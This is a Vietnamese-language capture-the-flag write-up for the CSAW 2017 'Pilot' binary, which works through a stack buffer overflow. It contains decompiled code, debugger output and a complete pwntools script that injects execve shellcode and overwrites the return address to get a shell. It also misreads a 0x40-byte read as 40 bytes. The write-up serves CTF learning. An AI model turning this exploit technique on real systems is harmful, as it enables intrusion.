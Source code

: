 ### Pilot - CSAW 2017
* Check security file:
```
 ❯ checksec pilot
[*] '/mnt/c/Users/levan/OneDrive/Documents/CTF/NightMare/pilot'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```
* Thấy rằng file bin này cho phép thực thi lệnh trên stack.
* Source sau khi được dịch qua IDA:
```
{
  __int64 v3; // rax
  __int64 v4; // rax
  __int64 v5; // rax
  __int64 v6; // rax
  __int64 v7; // rax
  __int64 v8; // rax
  __int64 v9; // rax
  __int64 v10; // rax
  __int64 v11; // rax
  __int64 v12; // rax
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  v3 = std::operator<<<std::char_traits<char>>(&std::cout, "[*]Welcome DropShip Pilot...");
  std::ostream::operator<<(v3, &std::endl<char,std::char_traits<char>>);
  v4 = std::operator<<<std::char_traits<char>>(&std::cout, "[*]I am your assitant A.I....");
  std::ostream::operator<<(v4, &std::endl<char,std::char_traits<char>>);
  v5 = std::operator<<<std::char_traits<char>>(&std::cout, "[*]I will be guiding you through the tutorial....");
  std::ostream::operator<<(v5, &std::endl<char,std::char_traits<char>>);
  v6 = std::operator<<<std::char_traits<char>>(
         &std::cout,
         "[*]As a first step, lets learn how to land at the designated location....");
  std::ostream::operator<<(v6, &std::endl<char,std::char_traits<char>>);
  v7 = std::operator<<<std::char_traits<char>>(
         &std::cout,
         "[*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...");
  std::ostream::operator<<(v7, &std::endl<char,std::char_traits<char>>);
  v8 = std::operator<<<std::char_traits<char>>(&std::cout, "[*]Good Luck Pilot!....");
  std::ostream::operator<<(v8, &std::endl<char,std::char_traits<char>>);
  v9 = std::operator<<<std::char_traits<char>>(&std::cout, "[*]Location:");
  v10 = std::ostream::operator<<(v9, buf);
  std::ostream::operator<<(v10, &std::endl<char,std::char_traits<char>>);
  std::operator<<<std::char_traits<char>>(&std::cout, "[*]Command:");
  if ( read(0, buf, 0x40uLL) > 4 )
    return 0LL;
  v11 = std::operator<<<std::char_traits<char>>(&std::cout, "[*]There are no commands....");
  std::ostream::operator<<(v11, &std::endl<char,std::char_traits<char>>);
  v12 = std::operator<<<std::char_traits<char>>(&std::cout, "[*]Mission Failed....");
  std::ostream::operator<<(v12, &std::endl<char,std::char_traits<char>>);
  return 0xFFFFFFFFLL;
}
```

* buf được khởi tạo với kích thước 32 bytes tuy nhiên khi đọc buf lại cho phép 40 bytes, vậy ta sẽ ghi đè được ở đây.
* Chạy bin:
```
[*]Welcome DropShip Pilot...
[*]I am your assitant A.I....
[*]I will be guiding you through the tutorial....
[*]As a first step, lets learn how to land at the designated location....
[*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
[*]Good Luck Pilot!....
[*]Location:0x7fffffffdae0
[*]Command:
```
* Theo thông thường khi khai thác buffer overflow thì payload sẽ bao gồm padding + địa chỉ, padding sẽ nằm trong stack, file bin này cho phép thực thi mã trên stack nên ta có thể chèn vào một shell code trong phần padding.
* Đoạn mã shell code `\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05`
* Tiếp theo cần tìm kích thước của padding để ghi đè.
* Đầu tiên nhập vào chuỗi bất kì sau đó dùng search-pattern để tìm địa chỉ chuỗi này được ghi vào trong stack:
```
gef➤  search-pattern 181818
[+] Searching '181818' in memory
[+] In '[stack]'(0x7ffffffdd000-0x7ffffffff000), permission=rwx
  0x7fffffffdae0 - 0x7fffffffdae8  →   "181818\n"
```

* Tìm địa chỉ của rip
```
gef➤  i f
Stack level 0, frame at 0x7fffffffdb10:
 rip = 0x400aee; saved rip = 0x7ffff7b99c8a
 called by frame at 0x7fffffffdbb0
 Arglist at 0x7fffffffdad8, args:
 Locals at 0x7fffffffdad8, Previous frame's sp is 0x7fffffffdb10
 Saved registers:
  rbp at 0x7fffffffdb00, rip at 0x7fffffffdb08
```

* Như vậy ta có được offset cần là:
```
>>> 0x7fffffffdb08-0x7fffffffdae0
40
```

* Vậy payload sẽ có dạng như thế này: |----(shell)---Padding------------|--Leak Address--|
* Khi được đưa vào stack, leak address sẽ overwrite lên return address, shell code sẽ nằm trong stack và thực thi. 
* file exploit:
```
from pwn import *
p = process('./pilot')

# scpt = '''
# b *0x0000000000400AEE
# '''
# gdb.attach(p, gdbscript=scpt)
print(p.recvuntil(b'[*]Location:'))

leak = str(p.recvline())
adr = int(leak.strip("b'\\n"), 16)

shell_code = b'\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05' # Shell code
payload = b''
payload += shell_code
payload += b'a'*(40-len(shell_code))	
payload += p64(adr)

p.sendline(payload)
p.interactive()
p.close()
```
